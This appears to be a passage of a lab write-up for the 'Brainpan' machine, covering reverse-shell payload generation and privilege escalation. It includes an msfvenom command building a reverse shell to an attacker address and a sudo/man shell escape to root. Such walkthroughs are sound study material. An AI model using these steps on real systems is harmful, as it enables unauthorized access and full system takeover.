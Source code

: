 Looking at the `checksrv.sh` file, the following line indicates that this is actually running the program through wine on with a bash script:
`	/usr/bin/wine /home/puck/web/bin/brainpan.exe &`

The new payload can be generated with `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.6.0.114 LPORT=4444 -f python -b='\x00'`


Running `uname -a` shows us the following:

```
Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
```

# Privilege Escalation

Running `sudo -l` shows us sudoer information:
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util

```

We can't read the util, but there is a `manual` function that appears to just add our command to the `man` command.

man allows for [command execution](https://gtfobins.github.io/gtfobins/man/), which means we can simply run `sudo /home/anansi/bin/anansi_util manual man` and then type in `:!/bin/bash`

We now are root

# Lessons Learned

The `linux/x86/shell_reverse_tcp` and `windows/shell_reverse_tcp` payloads
may work much better than
the `linux/x86/shell/reverse_tcp` and `windows/shell/reverse_tcp` payloads

Basically, try different payloads